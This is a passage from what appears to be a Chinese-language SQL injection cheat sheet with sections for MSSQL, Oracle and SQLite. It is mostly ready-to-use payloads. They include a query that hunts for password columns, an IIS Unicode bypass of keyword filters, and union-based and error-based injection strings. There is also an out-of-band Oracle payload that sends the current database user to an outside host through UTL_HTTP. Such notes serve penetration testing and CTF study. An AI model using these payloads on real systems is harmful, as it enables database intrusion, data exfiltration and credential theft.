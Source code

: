 - 快速查找带关键字的表
    - `SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = 'U' AND (syscolumns.name LIKE '%pass%' or syscolumns.name LIKE '%pwd%' or syscolumns.name LIKE '%first%');`

- Unicode绕过
    - IIS 对 Unicode 编码是可以解析的，即 s%u0065lect 会被解析为 select

## Oracle

- `SELECT`语句必须包含`FROM`
    - 用`dual`表
- 子字符串：
    - `SUBSTR("abc", 1, 1) => 'a'`
- 空白字元
    - `00 0A 0D 0C 09 20`
- IF语句
    - `IF condition THEN true-part [ELSE false-part] END IF`
- 注解：
    - `--`
- 其它
    - `SYS.DATABASE_NAME`
        - current database
    - `USER`
        - current user
    - `SELECT banner FROM v$version where rownum=1`
        - database version
- 库名
    - `SELECT DISTINCT OWNER FROM ALL_TABLES`
- 表名
    - `SELECT OWNER, TABLE_NAME FROM ALL_TABLES`
- Column
    - `SELECT OWNER, TABLE_NAME, COLUMN_NAME FROM ALL_TAB_COLUMNS`
- Union Based
    - Column型态必须相同
    - 可用`NULL`来避免
    - `UNION SELECT 1, 'aa', null FROM dual`
- Error Based
    - `SELECT * FROM news WHERE id=1 and CTXSYS.DRITHSX.SN(user, (SELECT banner FROM v$version WHERE rownum=1))=1`
- Out of band
    - `UTL_HTTP.request('http://kaibro.tw/'||(select user from dual))=1`

## SQLite

- 子字符串：
    - `substr(“abc",1,1)   =>   'a'`
- Ascii function:
    - `unicode('d') => 100`
- legth
    - `length('ab') => 2`
- Concatenation
    - `||`
    - `'a' || 'b' => 'ab'` 
- Time Delay
    - `randomblob(100000000)`
- 空白字元
    - `0A 0D 0C 09 20`
- Case when
    - SQLite没有`if`
    - 可以用`Case When ... Then ...`代替
    - `case when (条件) then ... else ... end`
- 注解
    - `--`